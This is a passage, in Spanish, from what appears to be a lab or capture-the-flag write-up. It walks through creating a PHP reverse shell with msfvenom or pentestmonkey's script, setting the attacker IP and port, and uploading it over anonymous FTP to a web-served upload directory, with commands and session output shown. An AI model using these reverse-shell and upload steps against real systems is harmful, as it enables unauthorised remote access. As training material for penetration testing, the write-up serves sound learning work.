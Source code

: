 Para ello creamos primero la reverse shell, bien con "msfvenom":
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverse.php 
```
o mas facil, la cogemos del repositorio de github de "pentestmonkey" (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), donde cambiariamos unicamente la IP (usariamos la de la maquina atacante), y el puerto (tambien el de la maquina atacante):
```
set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.1';  // Pongo mi IP (en este caso 172.17.0.1)
$port = 4444;       // Pongo mi puerto (en este caso, el 4444 por ejemplo)
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
En esta ocasion, yo voy a usar la segunda ya que nunca la he usado y asi practico.

Para ello escribo:
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
Una vez obtenida la reverse del repositorio de "pentestmonkey", modificamos los parametros que he mencionado anteriormente, poniendo mi IP (172.17.0.1) y mi puerto (4444). Ambos de la maquina atacante.

Es momento ahora de subirla mediante "ftp" a la carpeta "upload":
```
ftp 172.17.0.2

Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> cd upload
250 Directory successfully changed.

ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||6292|)
150 Ok to send data.
100% |**********************************|    67        1.63 MiB/s    00:00 ETA
226 Transfer complete.
67 bytes sent in 00:00 (182.25 KiB/s)

ftp> ls
229 Entering Extended Passive Mode (|||45587|)
150 Here comes the directory listing.
-rw-------    1 101      103            67 Jul 30 23:42 php-reverse-shell.php
226 Directory send OK.
ftp> 
```
Vale, una vez subida, vemos que esta en la pagina web, en la seccion de "/upload".
